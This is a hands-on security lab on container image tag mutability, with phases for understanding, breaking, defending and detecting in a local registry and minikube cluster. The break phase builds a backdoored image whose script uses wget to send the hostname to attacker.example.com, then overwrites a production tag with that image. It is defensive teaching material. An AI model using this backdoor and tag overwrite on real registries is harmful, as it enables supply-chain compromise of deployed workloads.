

# Lab 3.2: Tag Mutability Attacks

<div class="lab-meta">
  <span>~20 min hands-on | ~10 min reference</span>
  <span class="difficulty intermediate">Intermediate</span>
  <span>Prerequisites: <a href="../tier-0/0.3-containers.md">Lab 0.3</a></span>
</div>

Container image tags are mutable pointers. `image: webapp:1.0.0` in a Kubernetes deployment has no guarantee that `1.0.0` today points to the same image as yesterday. An attacker (or compromised CI pipeline) can overwrite a tag with a different image. The next pod restart pulls the attacker's version.

---

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| OCI Registry | `registry:5000` | Local registry with `webapp:1.0.0` |
| Kubernetes | minikube cluster | Running deployment that pulls from the registry |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. Tags Are Mutable Pointers"

### Step 1: Inspect the current tag

```bash
crane digest registry:5000/webapp:1.0.0
```

Save the content-addressable SHA256 digest:

```bash
crane digest registry:5000/webapp:1.0.0 > /app/safe-digest.txt
cat /app/safe-digest.txt
```

### Step 2: Verify the running deployment

```bash
kubectl get deployment webapp -o jsonpath='{.spec.template.spec.containers[0].image}'
```

The deployment references `registry:5000/webapp:1.0.0`. A tag, not a digest.

### Step 3: Test the running app

```bash
kubectl exec deploy/webapp -- cat /app/version.txt
```

### Step 4: Understand the risk

If anyone pushes a new image to `registry:5000/webapp:1.0.0`, the next pod restart pulls it. Kubernetes does not verify image content matches what was originally deployed.

With `imagePullPolicy: Always` (default for `:latest`, common in production), every pod restart triggers a fresh pull.

---

???+ warning "Phase 2: BREAK. Overwriting a Tag With a Backdoored Image"

### Step 1: Build the backdoored image

```bash
cat > /tmp/Dockerfile.backdoor << 'EOF'
FROM alpine:3.19
RUN echo "BACKDOORED" > /app/version.txt && \
    echo '#!/bin/sh' > /usr/local/bin/backdoor.sh && \
    echo 'wget -q http://attacker.example.com/exfil?host=$(hostname)' >> /usr/local/bin/backdoor.sh && \
    chmod +x /usr/local/bin/backdoor.sh
CMD ["cat", "/app/version.txt"]
EOF

docker build -t registry:5000/webapp:1.0.0 -f /tmp/Dockerfile.backdoor /tmp/
```

### Step 2: Push with the same tag

```bash
docker push registry:5000/webapp:1.0.0
```

The tag `1.0.0` now points to a completely different image. No warning, no confirmation.

### Step 3: Verify the digest changed

```bash
crane digest registry:5000/webapp:1.0.0
```

Compare to the saved digest. Different image, same tag.

### Step 4: Trigger a redeploy

```bash
kubectl rollout restart deployment/webapp
kubectl rollout status deployment/webapp --timeout=60s
```

### Step 5: Check the damage

```bash
kubectl exec deploy/webapp -- cat /app/version.txt
```

Prints "BACKDOORED". Silent replacement, no alerts, no errors.

### Step 6: Record your findings

```bash
cat > /app/findings.txt << EOF
Original safe digest: $(cat /app/safe-digest.txt)
Current (backdoored) digest: $(crane digest registry:5000/webapp:1.0.0)
The tag 1.0.0 was overwritten with a backdoored image.
Kubernetes pulled the new image on rollout restart without any verification.
EOF
```

---

???+ success "Phase 3: DEFEND. Digest Pinning and Admission Control"

### Defense 1: Restore the safe image

```bash
SAFE_DIGEST=$(cat /app/safe-digest.txt)
crane tag registry:5000/webapp@${SAFE_DIGEST} 1.0.0
```

### Defense 2: Pin by digest in the deployment

```bash
SAFE_DIGEST=$(cat /app/safe-digest.txt)

cat > /app/deploy/deployment.yml << EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: webapp
spec:
  replicas: 1
  selector:
    matchLabels:
      app: webapp
  template:
    metadata:
      labels:
        app: webapp
    spec:
      containers:
        - name: webapp
          image: registry:5000/webapp@${SAFE_DIGEST}
          imagePullPolicy: Always
EOF

kubectl apply -f /app/deploy/deployment.yml
kubectl rollout status deployment/webapp --timeout=60s
```

Now even if the tag is overwritten, the deployment pulls the exact digest.

### Defense 3: Verify the safe image is back

```bash
kubectl exec deploy/webapp -- cat /app/version.txt
```

### Defense 4: Admission controller

A Kyverno policy rejects any pod using a tag-only image reference:

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-image-digest
spec:
  validationFailureAction: Enforce
  rules:
    - name: check-digest
      match:
        any:
          - resources:
              kinds: ["Pod"]
      validate:
        message: "Images must use digest references (@sha256:), not tags"
        pattern:
          spec:
            containers:
              - image: "*@sha256:*"
```

### Step 5: Verify the lab

```bash
weaklink verify 3.2
```

---

??? danger "Phase 4: DETECT. Finding Tag Overwrites in Production"

The core signal is a **tag push where the tag already existed with a different digest**. The secondary signal is a **deployment pulling a different digest than it previously ran**.

**Indicators:**

- Registry audit logs showing `PUT` to an existing tag (tag overwrite)
- Deployment events where pulled image digest differs from previously running digest
- Pod restarts coinciding with registry push events
- `imagePullPolicy: Always` on production deployments (increases exposure)

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Implant Internal Image** | [T1525](https://attack.mitre.org/techniques/T1525/) | Attacker overwrites a legitimate tag with a backdoored image |
| **Deploy Container** | [T1610](https://attack.mitre.org/techniques/T1610/) | Kubernetes automatically deploys the attacker's container on next pull |

---

??? tip "SOC Relevance"

    **Alerts:**

    - "Registry tag overwrite: webapp:1.0.0 pushed with new digest"
    - "Kubernetes deployment pulled different digest for same image tag"

    **Triage steps:**

    1. Compare new digest against previous digest for the same tag
    2. Check who pushed the new image (registry audit log: user, IP, timestamp)
    3. Inspect new image layers for unexpected binaries or scripts
    4. If unauthorized: re-tag the known-good digest and redeploy
    5. Rotate any secrets accessible to pods that ran the compromised image

    **Prevention:** Enable tag immutability in your registry (ECR, GCR, Harbor all support this).

---

??? example "CI Integration"

    **`.github/workflows/digest-check.yml`:**

    ```yaml
    name: Image Digest Enforcement

    on:
      pull_request:
        paths:
          - "k8s/**"
          - "deploy/**"
          - "helm/**"

    jobs:
      check-digests:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4

          - name: Reject tag-only image references
            run: |
              FOUND=0
              for f in $(find k8s/ deploy/ helm/ -name '*.yml' -o -name '*.yaml' 2>/dev/null); do
                while IFS= read -r line; do
                  if echo "$line" | grep -qE 'image:.*:[a-zA-Z0-9._-]+$' && \
                     ! echo "$line" | grep -q '@sha256:'; then
                    echo "::error file=$f::Tag-only image reference found: $line"
                    FOUND=1
                  fi
                done < "$f"
              done
              if [ "$FOUND" -eq 1 ]; then
                exit 1
              fi
              echo "PASS: All image references use digests."
    ```

---

## What You Learned

- **Tags are mutable.** `webapp:1.0.0` today can point to a different image tomorrow. Only digests (`@sha256:...`) are immutable.
- **Tag overwrites are silent.** Registries do not alert when a tag is moved. Kubernetes does not verify content.
- **Digest pinning is the fix.** Referencing images by `@sha256:` ensures you always get the intended image.

## Further Reading

- [OCI Distribution Spec: Manifest](https://github.com/opencontainers/distribution-spec/blob/main/spec.md)
- [Kyverno: Verify Image](https://kyverno.io/policies/best-practices/require-image-digest/)
- [ECR: Image Tag Immutability](https://docs.aws.amazon.com/AmazonECR/latest/userguide/image-tag-mutability.html)
